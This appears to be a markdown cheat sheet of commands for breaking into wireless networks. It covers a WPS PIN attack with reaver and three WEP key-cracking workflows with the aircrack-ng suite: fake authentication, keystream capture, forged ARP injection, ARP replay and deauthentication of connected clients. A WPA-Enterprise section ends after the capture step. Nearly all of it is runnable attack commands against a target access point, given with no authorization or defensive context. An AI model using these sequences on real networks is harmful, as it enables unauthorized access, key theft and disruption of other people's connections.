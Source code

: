# wireless-cracking

## Table Of Content
  * [Info Gathering](#info-gathering)
  * [WPS Attack](#wps-attack)
  * [WEP Cracking (Clientless)](#wep-cracking-clientless)
  * [WEP Cracking (Connected Client)](#wep-cracking-connected-client)
  * [WEP Cracking (Connected Client [Other Method])](#wep-cracking-connected-client-other-method)
  * [WPA-Enterprise Cracking](#wpa-enterprise-cracking)

## Info Gathering
- Get MAC Address of wireless network card
```
macchanger --show <INTERFACE>
```
- List wireless network info
```
iwconfig
```

## WPS Attack
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
wash -i wlan0mon
```
3. Crack the pin
```
sudo reaver -b <bssid of the AP> -i wlan0mon -v -K
```

## WEP Cracking (Clientless)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. If no client then do a fragmentation attack (-5) and obtain the Keystream file (If fragmentation not success then use Chopchop technique -4)
```
aireplay-ng -5 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Then the Keystream file (.xor) is obtained
7. Create ARP packet
```
packetforge-ng -0 -a <bssid of the AP> -h <wireless card MAC addr> -k 255.255.255.255 -l 255.255.255.255 -y fragment-0203-180343.xor(Keystream file) -w arp-request
```
8. Inject the forged ARP packet
```
aireplay-ng -2 -r arp-request wlan0mon
```
9. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client)
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
5. Then the Keystream file (.xor) is obtained
6. Do a fake authentication again with Keystream file
```
aireplay-ng -1 0 -e <wifi name(ssid)> -y <obtained_keystreamfile> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
7. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng -b <bssid of the AP> <captured file (.cap)>
```

## WEP Cracking (Connected Client [Other Method])
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```
4. Do a fake authentication
```
aireplay-ng -1 0 -e <wifi name(ssid)> -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon
```
**---If Fake authentication not working---** 

5. Interactive packet replay attack
```
aireplay-ng -2 -b <bssid of the AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>
```
or
```
aireplay-ng -2 -r <captured file (.cap)> wlan0mon
```
6. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
**---If Fake authentication working---** 

5. Do a ARP replay attack
```
aireplay-ng -3 -b <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
6. Do a Deauthentication attack
```
aireplay-ng -0 1 -a <bssid of the AP> -h <wireless card MAC addr> wlan0mon    
```
8. Crack and obtain wireless key
```
aircrack-ng <captured file (.cap)>
```
## WPA-Enterprise Cracking
1. Put the interface into monitor mode
```
airmon-ng start wlan0
```
2. Gain the information of the interface
```
airodump-ng wlan0mon
```
3. Capture the traffic and specify the Target AP
```
sudo airodump-ng -c <channel> --bssid <bssid of the AP> -w <output filename> wlan0mon
```

